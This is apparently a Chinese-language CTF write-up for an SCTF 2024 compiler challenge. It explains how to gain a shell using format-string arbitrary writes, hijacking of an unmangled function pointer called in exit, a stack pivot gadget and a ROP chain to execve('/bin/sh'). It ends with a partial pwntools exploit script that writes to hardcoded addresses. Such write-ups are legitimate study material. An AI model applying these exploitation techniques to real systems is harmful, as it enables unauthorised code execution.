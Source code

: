 接下来我们就可以利用如下原语，将payload注入到`INSERT`处，
反复调用`printf('1' * n, addr)`的方式来任意写

```go malicious.ugo
package main

func main() int {
    var i int = 0
        INSERT
    return 0
}
```

任意写有了，写什么好呢？原本我的想法是打apple，但奈何apple实在是太长了，
并且程序中也没有`system`，于是我找了找其他的函数指针，结果发现了在`exit`中调用了一处指针，
原先这个地方是`_IO_cleanup`，但是这个地方是可写的，且没有受`PTR_MANGLE`加密，
可以直接劫持。看了一下调用时的寄存器状态，此时正`call rbx`，因此rbx刚好是这个指针的地址，
是我们可以控制的，然后就是找gadget了。

经过令人近乎绝望的查找，我最终锁定了一个gadget：`mov esp, ebx; mov rbx, qword ptr [rsp]; add rsp, 0x30; ret`，
由于没有PIE，因此可以做栈迁移到`ebx + 0x30`上！我只要将数据写到`ebx + 0x30`的地址上，
就可以实现rop，只要构造`syscall(SYS_execve, "/bin/sh", NULL, NULL)`就可以拿到shell。

{% note purple fa-circle-arrow-right %}
`ebx + 0x30`的地方并不是可以任意写的，在调`_IO_cleanup`之前，会先运行`__exit_funcs`中的hook，
调用`call_fini -> __preinit_array_start -> __do_global_dtor_aux -> __deregister_frame_info_bases`，
在最后一个函数中会判断`object+24`是不是`&__EH_FRAME_BEGIN__`，如果不是则会继续迭代，
导致发生SIGSEGV，而`object`刚好在`ebx + 0x30`不远处，还需要绕过这个地方。

![bssStatus](/assets/sctf2024/bss.png)
{% endnote %}

剩下的就是先把payload伪造好，交给容器里的gcc编译，这样由于payload长度固定，生成出来的gadget位置基本也不会变，
执行就可以获取shell了

{% note default fa-ban %}
原先的方案是声明字符串的，由于llvm的特性，声明的字符串会在程序中保留一份，因此"/bin/sh"可以借此获取，
不过大概是由于程序中有太多字符串了，因此每次调整payload，即使长度没有变化，字符串的地址也会变化。
最后选择了把"/bin/sh"直接写到了bss上固定位置。
{% endnote %}

## EXPLOIT

```python
from pwn import *
import os
context.terminal = ['tmux','splitw','-h']
EXE = './hello'

def mkstr(val: int) -> str:
    return '1' * val

def w1byte(addr: int, val: int) -> str:
    return f'   i = {addr:#x}\n    printf("{mkstr(val)}%hhn", i)\n'

def wnbytes(n: int, addr: int, val: int) -> str:
    base = ''
    for i in range(n):
        base += w1byte(addr + i, (val >> (i * 8)) & 0xff)
    return base

def create_ugo():
    with open('hello.ugo', 'r') as goin:
        base = goin.read()
    ugo = ''
    ugo += wnbytes(4, 0x4c8288, 0x484a8e) # mov esp, ebx
```
